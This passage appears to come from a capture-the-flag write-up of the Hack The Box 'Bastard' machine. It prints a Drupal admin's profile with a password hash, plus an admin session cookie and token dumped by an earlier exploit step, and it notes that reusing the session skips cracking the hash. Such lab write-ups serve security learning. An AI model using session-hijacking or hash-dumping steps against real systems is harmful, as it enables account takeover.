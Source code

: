 Perfect! It created two files: _session.json_ and _user.json_. View the content of _user.json_.

```text
root@kali:~/Desktop/htb/bastard# cat user.json 
{
    "uid": "1",
    "name": "admin",
    "mail": "drupal@hackthebox.gr",
    "theme": "",
    "created": "1489920428",
    "access": "1581904913",
    "login": 1581908048,
    "status": "1",
    "timezone": "Europe\/Athens",
    "language": "",
    "picture": null,
    "init": "drupal@hackthebox.gr",
    "data": false,
    "roles": {
        "2": "authenticated user",
        "3": "administrator"
    },
    "rdf_mapping": {
        "rdftype": [
            "sioc:UserAccount"
        ],
        "name": {
            "predicates": [
                "foaf:name"
            ]
        },
        "homepage": {
            "predicates": [
                "foaf:page"
            ],
            "type": "rel"
        }
    },
    "pass": "$S$DRYKUR0xDeqClnV5W0dnncafeE.Wi4YytNcBmmCtwOjrcH5FJSaE"
```

It gives us the hashed password of the _admin_ user. We could run it through a password cracker, however, we don’t need to because the _session.json_ file gives us a valid session cookie for the _admin_ user.

```text
root@kali:~/Desktop/htb/bastard# cat session.json 
{
    "session_name": "SESSd873f26fc11f2b7e6e4aa0f6fce59913",
    "session_id": "lxPgeAwtaNwwE9BENklEVeWJf5CLaH5NFe5kEwM6_Is",
    "token": "9EsaYcsIlgp7r31F9qG3HJILwA3cbTzSR-61nEB0r_Y"
}
```
